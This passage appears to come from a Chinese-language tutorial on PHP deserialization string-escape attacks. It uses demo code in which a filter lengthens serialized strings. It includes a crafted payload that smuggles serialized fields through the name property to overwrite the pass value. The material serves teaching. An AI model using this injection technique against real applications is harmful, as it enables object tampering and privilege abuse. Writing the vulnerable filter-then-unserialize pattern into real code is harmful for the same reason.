 ```php
	echo '</br>';
	echo $c->pass;
?>
```

```
O:1:"A":2:{s:4:"name";s:3:"Bob";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":2:{s:4:"name";s:3:"Bob";s:4:"pass";s:3:"123";}
123
```

以上代码限制了输入的内容 当输入 x 时会替换为 yy 若被替换则会出现报错,因为长度与字符实际长度不符

```php
<?php
function filter($str){
    return str_replace('x', 'yy', $str);
}
class A{
    public $name='Bobx';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;

	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;

	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```
```
O:1:"A":2:{s:4:"name";s:4:"Bobx";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":2:{s:4:"name";s:4:"Bobyy";s:4:"pass";s:3:"123";}
Notice: unserialize(): Error at offset 31 of 56 bytes in \out.php on line 17
```

在只能修改 name 值的情况下,要将 pass 改为 456 则需要构造 `";s:4:"pass";s:3:"456";}` 其中有 24 个字符

由于在 `}` 以后的字符都不会影响反序列化, 所以可以填充内容在 `}` 之后

x 变为 yy 为原来的 2 倍长度 因此我们构造的 playload x 的数量应该为 24 当他变为原来的两倍 时 正好与没加倍时 name 的长度相同 便可以在后面构造 pass 的值

相应 payload
```
xxxxxxxxxxxxxxxxxxxxxxxx";s:4:"pass";s:3:"456";}
```

```php
<?php
function filter($str){
    return str_replace('x', 'yy', $str);
}
class A{
    public $name='xxxxxxxxxxxxxxxxxxxxxxxx";s:4:"pass";s:3:"456";}';
    public $pass='123';
}
$a=new A();
$s = serialize($a);
echo $s;
$res=filter($s);
echo '</br>after filter:</br>';
```